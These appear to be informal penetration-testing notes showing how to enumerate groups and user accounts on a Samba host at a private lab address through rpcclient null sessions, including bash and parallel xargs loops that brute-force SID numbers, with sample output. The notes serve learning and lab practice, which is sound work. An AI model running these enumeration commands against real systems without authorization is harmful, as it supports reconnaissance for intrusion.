
-c comand -U user  -N (null(???))
```
# THIS IS A MANUAL WAY

rcpclient -U "" 192.168.0.55 -N -c "help" | grep sid
```
result
```
rpcclient -U "" 192.168.0.55 -N -c "help" | grep sid
       uidtosid         Convert uid to sid
     lookupsids         Convert SIDs to names
    lookupsids3         Convert SIDs to names
lookupsids_level                Convert SIDs to names
     lsaenumsid         Enumerate the LSA SIDS
lsaquerytrustdominfobysid               Query LSA trusted domains info (given a SID)
```
of course this is the important

lsaenumsid         Enumerate the LSA SIDS
And this is the result
```
S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-
```
If we need to see the information we use 
"lookupsids S-1-5-32-550"
```
kali> S-1-5-32-550 BUILTIN\Print Operators (4)
```

he is using now a bucle
```
for i in $(seq 1 1000); do rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-5-32-$i" ; done
```
another way to go faster is (because xarg uses 50 threads at the same time)
```
seq 1 1000 | xargs -P 50 -I {} rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-5-32-{}" | grep -v "unknown"
```
This are groups, we want to know USERS , like root , wdata, etc.. important ones

so in this way we can search
```
rpcclient -U "" 192.168.0.55 -N -c "lookupnames root"
```
this is the report
```
kali>root S-1-22-1-0 (User: 1)
```

Now , we must search on this log, the the sids on this .. on this way
```
cds@cds:~$ rpcclient -U "" 192.168.0.55 -N -c "lookupnames root"
root S-1-22-1-0 (User: 1)
cds@cds:~$ rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-22-1-0"S-1-22-1-0 Unix User\root (1)
cds@cds:~$ rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-22-1-1"
S-1-22-1-1 Unix User\daemon (1)
cds@cds:~$ rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-22-1-2"
S-1-22-1-2 Unix User\bin (1)
cds@cds:~$ rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-22-1-3"
S-1-22-1-3 Unix User\sys (1)
cds@cds:~$ rpcclient -U "" 192.168.0.55 -N -c "lookupsids S-1-22-1-4"
S-1-22-1-4 Unix User\sync (1)
cds@cds:~$ 
```
